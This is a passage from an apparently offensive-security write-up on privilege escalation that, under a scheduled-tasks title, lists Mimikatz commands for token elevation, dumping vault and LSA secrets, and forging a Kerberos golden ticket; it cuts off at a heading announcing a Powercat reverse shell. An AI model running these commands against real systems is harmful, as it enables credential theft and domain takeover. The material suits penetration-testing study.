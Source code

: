 # Abusing Scheduled Tasks for Privilege Escalation

## 

### Overview

Scheduled tasks (or scheduled jobs) are a critical part of both Windows and Linux systems, allowing for automated task execution. These tasks are typically used for system maintenance, backups, and updates. However, when misconfigured, they can present significant security risks. Privilege escalation attacks that exploit scheduled tasks involve running malicious commands or scripts with higher privileges, often as an administrator or system-level user. This write-up will explore how attackers can abuse scheduled tasks in both Windows and Linux environments, provide a breakdown of key commands, and offer practical exploitation examples with corresponding proof-of-concept (PoC) scripts.

---

### Abusing Scheduled Tasks on **Windows**

1. **Mimikatz: Token Elevation and Credential Dumping**
Mimikatz is a popular post-exploitation tool used to extract credentials, elevate tokens, and create Golden Tickets. The following Mimikatz commands can be used to manipulate tokens and credentials to gain higher privileges:
    
    ```bash
    mimikatz # token::elevate
    ```
    
    - This command elevates the current token, allowing the attacker to perform operations as a more privileged user, typically SYSTEM.
    
    ```bash
    mimikatz # vault::cred /patch
    ```
    
    - This command targets the Windows Credential Vault, attempting to dump and patch credentials.
    
    ```bash
    mimikatz # lsadump::lsa /patch
    ```
    
    - Dumps LSA (Local Security Authority) secrets from the system, exposing account passwords and other sensitive information.
    
    ```bash
    mimikatz # kerberos::golden /user:Administrator /rc4:<Administrator NTLM(step 3)> /domain:<DOMAIN> /sid:<USER SID> /sids:<Administrator SIDS> /ticket:<OUTPUT TICKET PATH>
    ```
    
    - This generates a golden ticket for the specified user, allowing the attacker to impersonate the Administrator and gain full control over the domain.

---

1. **Powercat for Reverse Shell**
    
